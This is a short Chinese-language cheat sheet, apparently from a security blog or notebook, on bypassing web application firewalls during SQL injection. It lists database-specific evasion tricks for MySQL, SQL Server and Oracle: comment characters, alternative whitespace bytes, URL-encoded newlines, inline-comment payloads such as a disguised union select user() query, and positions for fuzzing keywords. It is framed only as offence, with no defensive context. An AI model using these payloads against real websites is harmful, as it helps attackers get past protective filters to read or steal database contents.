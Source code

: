 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1628910837633-f7bbf2ff-f74a-4f29-9c47-3d5763555675.png?x-oss-process=image%2Fresize%2Cw_1115%2Climit_0)









## WAF绕过-数据库特性

（1）mysql注释符有三种：#、/*...*/、--...(注意--后面有一个空格，或者为--+)

（2）空格符:[0x09,0x0a-0x0d,0x20,0xa0]

（3）特殊符号：%a换行符

可结合注释符使用%23%0a，%2d%2d%0a。

（3）内联注释：

/*!UnIon12345SelEcT*/1,user()//数字范围1000-50540

（4）mysql黑魔法

select{xusername}from{x11test.admin};

2、SQLServer技巧

（1）用来注释掉注射后查询的其余部分：

/*C语言风格注释

SQL注释

;00％空字节

（2）空白符：[0x01-0x20]

（3）特殊符号：%3a冒号

id=1union:select1,2from:admin

（4）函数变形：如db_name 空白字符

3、Oracle技巧

（1）注释符：--、/**/

（2）空白字符：[0x00,0x09，0x0a-0x0d,0x20]

4.配合FUZZ（[SQLI FUZZ字典](https://blog.csdn.net/weixin_44364851/article/details/111401383?utm_medium=distribute.pc_relevant.none-task-blog-2~default~BlogCommendFromMachineLearnPai2~default-15.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~BlogCommendFromMachineLearnPai2~default-15.control)，[SQL注入过滤关键字的Fuzz字典](https://mochu.blog.csdn.net/article/details/109526779?utm_medium=distribute.pc_relevant.none-task-blog-2~default~BlogCommendFromBaidu~default-16.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~BlogCommendFromBaidu~default-16.control)）

就是模糊测试，批量测试

select * from admin where id=1【位置一】union【位置二】select【位置三】1,2,db_name()【位置四】from【位置五】admin


